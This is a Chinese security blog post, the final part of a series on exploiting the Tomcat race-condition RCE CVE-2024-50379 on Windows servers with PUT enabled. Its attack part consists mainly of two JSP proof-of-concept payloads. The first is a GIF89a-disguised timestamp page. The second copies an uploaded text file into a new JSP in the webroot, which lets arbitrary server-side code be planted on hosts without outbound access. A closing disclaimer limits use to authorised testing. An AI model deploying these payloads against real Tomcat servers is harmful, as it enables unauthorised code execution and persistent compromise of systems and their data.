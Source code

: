 #  最终章 | Tomcat条件竞争RCE的最终利用篇，带视频教学及POC   
原创 犀利猪  犀利猪安全   2024-12-21 09:28  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PVHs7dHw163nH6MUINlAAdNibz6iaI4IzyrdKvVSZibcTh4HYuZdYIfb8qc2V0Ij92eaVBlDUY5H7rtIfgnYZzh6A/640?wx_fmt=png "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PVHs7dHw163l3X1DTic0xNUMlqqNWbyjzMCSQBL5TSYMicqiaebusTIMaEibNDp0S0ST543taeeM9Blvydoa0pk0uA/640?wx_fmt=png "")  
  
**0x01 文章背景**  
  
    之前我们分别发布了两篇文章，分别是Tomcat条件竞争RCE的复现、以及一篇如何让它持久的利用：  
  
[Tomcat RCE | CVE-2024-50379条件竞争RCE复现，带视频教程及POC](https://mp.weixin.qq.com/s?__biz=Mzk0NzQxNzY2OQ==&mid=2247487499&idx=1&sn=54c62641c62f93cdf13a14f22231801f&scene=21#wechat_redirect)  
  
  
  
[书接上回 | Tomcat条件竞争RCE该如何深入利用，让它持久而并非昙花一现](https://mp.weixin.qq.com/s?__biz=Mzk0NzQxNzY2OQ==&mid=2247487591&idx=1&sn=14d76d32e7522965b528f556598772e4&scene=21#wechat_redirect)  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PVHs7dHw1604HL3RYrePiaXV0fIKC5JibHgdxc68SoBiaIZ2VlyQlwv21H5Ra8WF0jfUCY1znOjFKuGo7nhjqs6Qw/640?wx_fmt=png&from=appmsg "")  
  
    这个洞局限还是比较大的：首先就是需要在Windows上，在漏洞版本范围内，然后开了PUT请求，其次再利用到条件竞争进行上传。  
  
    但是有些东西，你懂的，不可能完全没人开启的，研究它，就是为了在遇到这个漏洞时更好的进行利用：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PVHs7dHw1604HL3RYrePiaXV0fIKC5JibHjL1VDJSGahzUme0yF584jaHTlMgeOZ8F8DtTF2JeNGwzibR7eiaIPhLw/640?wx_fmt=png&from=appmsg "")  
  
    第二篇文章，咱们已经描述了这个条件竞争漏洞的利用条件，并提供了一个远程下载的方案，但是这个方案还是有一个问题：  
如果目标不出网，无法进行远程下载，所以咱们总结了一个最终利用。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PVHs7dHw1604HL3RYrePiaXV0fIKC5JibHCYWAkkKsA0xcYCPRaMqNH1rn3Y9XmXNdjxicOZ1Y8FlQywibXBgErgQQ/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PVHs7dHw163l3X1DTic0xNUMlqqNWbyjzMCSQBL5TSYMicqiaebusTIMaEibNDp0S0ST543taeeM9Blvydoa0pk0uA/640?wx_fmt=png "")  
  
**0x02 直奔教程**  
  
    手好冷，不想打字了，直接看视频吧：  
  
  
**POC如下**  
  
****获取时间：  
```
GIF89a
<%@page import="java.text.SimpleDateFormat"%>
<%@page import="java.util.Date"%>
<%@ page language="java" contentType="text/html; UTF-8"
    pageEncoding="UTF-8"%>
<!DOCTYPE html>
<html>
<head>
<meta charset="utf-8">
<title>java_bean</title>
</head>
<body>
  
    <%
        Date date = new Date();   
        SimpleDateFormat df = new SimpleDateFormat("yyyy-MM--dd HH:mm:ss"); 
        String today = df.format(date); 
    %>
    当前时间:<%= today%>
</body>
</html>
```  
  
    读取重命名并保存：****  
```
<%@ page import="java.io.*" %>
<%
    //要读取的文件
    String sourceFilePath = application.getRealPath("/") + "xlz1.txt"; 
//重新保存后的文件名
    String destinationFilePath = application.getRealPath("/") + "time123.jsp"; 

    try {

        FileReader fileReader = new FileReader(sourceFilePath);
        BufferedReader bufferedReader = new BufferedReader(fileReader);

        FileWriter fileWriter = new FileWriter(destinationFilePath);
        BufferedWriter bufferedWriter = new BufferedWriter(fileWriter);

        String line;
        while ((line = bufferedReader.readLine()) != null) {
            bufferedWriter.write(line);
            bufferedWriter.newLine();  
        }
        bufferedReader.close();
        bufferedWriter.close();
        out.println("SAVA_PATH: " + destinationFilePath);
    } catch (IOException e) {
        e.printStackTrace();
        out.println("Error: " + e.getMessage());
    }
%>
```  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/PVHs7dHw163nH6MUINlAAdNibz6iaI4Izy4LuoZ7bquVOTMR71nU9KdboYQl4xoGMXguo4X7ojBz8EgZn7RuRYMw/640?wx_fmt=gif "")  
  
(  
  
**END**  
  
)  
  
  
  
  
**！扫码添加哦！**  
  
**联系进群即可，群内可交流技术**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PVHs7dHw161SVECqIIflnQVpMTR7hvQAZK7QuDt16f1GLXXstw8TpKFkfPNzWqYJwBsNq9w2np08rf2Daia88aA/640?wx_fmt=png "")  
  
**免责声明**  
  
  
  
  
  
  
  
  
     
  
**文章**  
**内容仅限授权测试或学习使用**  
  
**请勿进行非法的测试或攻击******  
  
    利用本账号所发文章**进行直接或间接的非法行为**均由操作者本人负全责**犀利猪安全及文章对应作者**  
  
**不为此承担任何责任**  
  
**文章来自互联网或原创**  
  
**如有侵权可联系我方进行删除**  
  
**并诚挚的跟您说声抱歉**  
  
  
  
  
